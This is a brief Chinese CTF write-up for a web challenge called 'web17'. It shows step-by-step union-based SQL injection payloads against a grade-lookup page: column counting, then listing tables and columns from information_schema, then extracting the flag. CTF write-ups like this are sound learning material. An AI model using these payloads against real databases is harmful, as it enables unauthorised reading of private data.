

# web17


进入环境


成绩查询

估计是sql注入

先试试

有没有注入点

输入了一个1’


有回显

说明有注入点

查看有多少个字段

使用二分制测试

```sql
1' order by 4#
```


回显正常

说明测试这个表出有4个字段

使用联合查询查看字段所显示的位置

```
-1' union select 1,2,3,4 #
```


然后查询数据库

```sql
-1' union select database(),2,3,4 #
```




得到数据库名

> skctf

然后查询表名

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='skctf'#
```

也可以使用这一句

这一句就不需要知道数据库的名字

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
```


得到表明

> fl4g,sc

flag在fl4g里

接下来查字段

```
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'fl4g'#
```


得到字段名

查字段的内容

```sql
-1' union select 1,skctf_flag,3,4 from fl4g#
```


得到flag


